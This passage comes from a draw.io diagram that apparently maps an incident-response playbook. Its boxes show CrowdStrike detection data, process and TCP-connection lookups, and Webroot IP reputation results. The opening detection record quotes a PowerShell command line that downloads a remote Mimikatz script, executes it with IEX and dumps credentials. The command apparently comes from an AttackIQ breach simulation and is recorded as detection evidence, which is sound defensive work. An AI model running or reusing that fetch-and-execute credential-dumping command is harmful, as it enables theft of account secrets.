$mimi=$webclient.DownloadString(&#39;https://testing.scenarios.attackiq-ntm.com/124d22153e45aefaf7294d66846c876234b2b09cc4a16994de9756874d08df33/obf_mim.ps1&#39;);}catch [Net.WebException]{&#39;Download failed&#39;; exit -1 };\&quot; \&quot;if ((get-hash($mimi)) -eq &#39;A0B2F9D7CA22E9848585E238D8F32294&#39;) { IEX $mimi; Invoke-Mimikatz -DumpCreds } else { &#39;Invalid HASH for downloaded Mimikatz PowerShell script&#39;; exit -2 }\&quot;&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;scenario&quot;: &quot;credential_theft&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;objective&quot;: &quot;Gain Access&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;tactic&quot;: &quot;Credential Access&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;tactic_id&quot;: &quot;TA0006&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;technique&quot;: &quot;OS Credential Dumping&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;technique_id&quot;: &quot;T1003&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;display_name&quot;: &quot;PShellMimikatz&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;description&quot;: &quot;A PowerShell script appears to be launching mimikatz, a password dumping utility. This is often launched as part of a PowerShell exploit kit. Decode and review the script.&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;severity&quot;: 70,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;confidence&quot;: 80,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ioc_type&quot;: &quot;&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ioc_value&quot;: &quot;&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ioc_source&quot;: &quot;&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ioc_description&quot;: &quot;&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;user_name&quot;: &quot;WIN-5KM58PAUOE8$&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;user_id&quot;: &quot;S-1-5-18&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;control_graph_id&quot;: &quot;ctg:6de5f3fad8004ca8a97cdc7c565edf9c:18566056045&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;triggering_process_graph_id&quot;: &quot;pid:6de5f3fad8004ca8a97cdc7c565edf9c:454074737021&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;sha256&quot;: &quot;e82115ffd93298cbf1d5837677f5e1cfd5fc515b53f2cf02c473b0f63d542bca&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;md5&quot;: &quot;349f866bd2fa869ed047707c5723b9f1&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;parent_details&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;parent_sha256&quot;: &quot;5275c42f7359fa2c7ec473be3240e57d5ce5b9301a26bd2e98e89bb9db074581&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;parent_md5&quot;: &quot;22730c835d3129c7567b963699763cbe&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;parent_cmdline&quot;: &quot;\&quot;C:\\Program Files\\AttackIQ\\Agent\\engine\\py3\\python\&quot; \&quot;C:\\Program Files\\AttackIQ\\Agent\\attack_graph.py\&quot;&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;parent_process_graph_id&quot;: &quot;pid:6de5f3fad8004ca8a97cdc7c565edf9c:454062376310&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;pattern_disposition&quot;: 2304,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;pattern_disposition_details&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;indicator&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;detect&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;inddet_mask&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;sensor_only&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;rooting&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;kill_process&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;kill_subprocess&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;quarantine_machine&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;quarantine_file&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;policy_disabled&quot;: true,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;kill_parent&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;operation_blocked&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;process_blocked&quot;: true,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;registry_operation_blocked&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;critical_process_disabled&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;bootup_safeguard_enabled&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;fs_operation_blocked&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;handle_operation_downgraded&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;kill_action_failed&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;blocking_unsupported_or_disabled&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;suspend_process&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;suspend_parent&quot;: false&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; },&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="4870" y="220" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-179" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;&lt;div&gt;Command Name&lt;/div&gt;&lt;div&gt;RSA_CrowdstrikeGetProcessbyIOCs&lt;/div&gt;&lt;div&gt;Parameter 1: IOC Type&lt;/div&gt;&lt;div&gt;sha256&lt;/div&gt;&lt;div&gt;Parameter 2: IOC Value&lt;/div&gt;&lt;div&gt;[&quot;BD85402436CE4EC7AE312C8863F60A04CA3893F94FDFD3C468EB7F8C05FDAC81&quot;]&lt;/div&gt;&lt;div&gt;Parameter 3: Host Aids&lt;/div&gt;&lt;div&gt;[&quot; &quot;]&lt;/div&gt;&lt;/div&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="4870" y="430" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-180" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;&lt;br&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="4870" y="465" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-181" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;&lt;div&gt;Command Name&lt;/div&gt;&lt;div&gt;RSA_CrowdstrikeGetTCPConnectionInfo&lt;/div&gt;&lt;div&gt;Parameter 1: Endpoint ID&lt;/div&gt;&lt;div&gt;[&quot; &quot;]&lt;/div&gt;&lt;/div&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="4870" y="655" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-182" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;[&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;52.226.139.185&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;54.67.92.206&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;52.178.17.3&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;52.33.195.208&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;34.211.152.164&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;54.67.48.56&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;52.226.139.121&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;52.226.139.180&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;185.159.159.170&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;172.64.140.31&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;172.67.194.22&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;40.113.110.67&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;185.183.33.217&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;54.67.68.88&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;20.66.84.207&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;40.99.16.226&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;104.21.20.191&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;100.64.0.6&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;23.192.47.10&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;204.79.197.239&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;65.9.42.42&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;23.192.46.235&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;142.251.42.131&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;13.107.21.239&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;52.111.245.2&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;23.43.249.42&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;52.112.115.3&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;20.198.119.84&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;138.199.21.216&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;168.63.129.16&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;54.183.140.32&quot;&lt;/p&gt;&lt;p&gt;]&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="4870" y="690" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-183" value="Investigation-Correlate Process Info&lt;br&gt;Command - RSA_InvestigationTableUpdate" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="5230" y="580" width="340" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-185" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;&lt;/div&gt;&lt;/div&gt;&lt;div&gt;Command Name&lt;/div&gt;&lt;div&gt;RSA_InvestigationTableUpdate&lt;/div&gt;&lt;div&gt;Parameter 1: Incident No.&lt;/div&gt;&lt;div&gt;20230425-1573&lt;/div&gt;&lt;div&gt;Parameter 2: Investigation Section&lt;/div&gt;&lt;div&gt;Findings: Data Correlations&lt;/div&gt;&lt;div&gt;Parameter 3: Data&lt;/div&gt;&lt;div&gt;[]&lt;/div&gt;&lt;div&gt;Parameter 4: Data Field Title&lt;/div&gt;&lt;div&gt;Parameter 5: Data Field Name&lt;/div&gt;&lt;div&gt;Parameter 6: Title&lt;/div&gt;&lt;div&gt;Process Information Related to Malicious SHA256&lt;/div&gt;&lt;div&gt;Parameter 7: Description&lt;/div&gt;&lt;div&gt;Parameter 8: Highlight Values&lt;/div&gt;&lt;div&gt;[&quot;commander.exe&quot;]&lt;/div&gt;&lt;br&gt;&lt;br&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="5300" y="405" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-186" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;&lt;br&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="5300" y="440" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-187" value="Containment&lt;br&gt;Stage" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="6770" y="290" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-195" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-190" target="NKeEgVbL9whLPdXC6YmX-198">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="5655" y="840" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-190" value="Check IP Reputation - Webroot&lt;br&gt;Command - Check IP Reputation" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="5260" y="810" width="250" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-192" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;&lt;div&gt;&lt;/div&gt;&lt;/div&gt;&lt;div&gt;Command Name&lt;/div&gt;&lt;div&gt;Check IP Reputation&lt;/div&gt;&lt;div&gt;Parameter 1: IPs&lt;/div&gt;&lt;div&gt;[&quot;52.226.139.185&quot;,&quot;54.67.92.206&quot;,&quot;52.178.17.3&quot;,&quot;52.33.195.208&quot;,&quot;34.211.152.164&quot;,&quot;54.67.48.56&quot;,&quot;52.226.139.121&quot;,&quot;52.226.139.180&quot;,&quot;185.159.159.170&quot;,&quot;172.64.140.31&quot;,&quot;172.67.194.22&quot;,&quot;40.113.110.67&quot;,&quot;185.183.33.217&quot;,&quot;54.67.68.88&quot;,&quot;20.66.84.207&quot;,&quot;40.99.16.226&quot;,&quot;104.21.20.191&quot;,&quot;100.64.0.6&quot;,&quot;23.192.47.10&quot;,&quot;204.79.197.239&quot;,&quot;65.9.42.42&quot;,&quot;23.192.46.235&quot;,&quot;142.251.42.131&quot;,&quot;13.107.21.239&quot;,&quot;52.111.245.2&quot;,&quot;23.43.249.42&quot;,&quot;52.112.115.3&quot;,&quot;20.198.119.84&quot;,&quot;138.199.21.216&quot;,&quot;168.63.129.16&quot;,&quot;54.183.140.32&quot;]&lt;/div&gt;&lt;br&gt;&lt;br&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="5285" y="650" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-193" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;[&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;52.226.139.185&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 77,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 3,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;52.226.139.185&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 887262137,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 77,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 3&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;52.226.139.185&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;77&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;3&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;54.67.92.206&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 16,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 1,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;54.67.92.206&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 910384334,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 16,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 1&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;54.67.92.206&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;16&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;1&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;52.178.17.3&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 77,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 3,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;52.178.17.3&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 884084995,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 77,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 3&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category 